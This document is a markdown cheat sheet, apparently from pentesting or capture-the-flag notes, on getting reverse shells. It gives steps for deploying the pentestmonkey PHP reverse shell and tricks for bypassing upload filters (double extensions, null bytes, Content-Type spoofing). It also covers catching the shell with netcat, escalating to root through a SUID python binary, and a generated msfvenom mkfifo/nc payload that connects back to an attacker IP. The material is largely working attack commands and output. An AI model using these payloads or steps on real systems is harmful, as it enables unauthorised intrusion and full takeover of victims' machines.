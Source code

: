 # Reverse Shell

Hacker's machine acts as a server. 
It opens a communication channel on a port and waits for incoming connections. 
Victim's machine acts as a client and initiates a connection to hackers's listening server.

## PHP Reverse Shell

### Script

1. Download PHP script from https://github.com/pentestmonkey/php-reverse-shell
2. Change `IP` and `PORT`to your host IP and random PORT.


### How to bypass validation in uploading forms

* Try to rename php file differently, eg. changing extensions to .phtml or .php.jpg
* Try to change Content-type filtering i.e., changing Content-Type: txt/php to image/jpg
* Try to add special characters to bypass pic.php%00 , pic.php%0a, pic.php%00

### Script deployment & access granting

1. Keep listening on port you choose and included in PHP script.
```
$ nc -lnvp <port>
```
2. Run script or wait if someone will run it. You should get similar output from netcat command:
```
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:17:34 up 28 min,  0 users,  load average: 0.00, 0.01, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And now you have access to www-data user. 

### Escalete to root

1. Look for the files with SUID permission:
```
$ find / -type f -user root -perm -4000 2>/dev/null
```

2. If you have /usr/bin/python on a list, use tool Gtfobins -> https://gtfobins.github.io/
```
$ python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
```

3. Check who are you:
```
$ whoami
root
```

Root is yours! Congrats!

---

## Netcat Reverse Shell

Case: Telnet connection

### Script

Generate and encode a netcat reverse shell:
```
$ msfvenom -p cmd/unix/reverse_netcat lhost=<local_IP> lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 91 bytes
mkfifo /tmp/wqivu; nc 10.9.0.54 4444 0</tmp/wqivu | /bin/sh >/tmp/wqivu 2>&1; rm /tmp/wqivu
```
* -p - payload
* lhost - local host IP address
* lport - the port to listen on
* R - export the payload in raw format

2. Start a netcat listener:
```
$ nc -lvp <listening_port>
```

3. Copy and paste msfvenom payload into the telnet session 
```
.RUN mkfifo /tmp/wqivu; nc 10.9.0.54 4444 0</tmp/wqivu | /bin/sh >/tmp/wqivu 2>&1; rm /tmp/wqivu
```

5. Check in netcat session, if you have a reverse shell:
```
$ pwd
/root
```

Congrats!

---






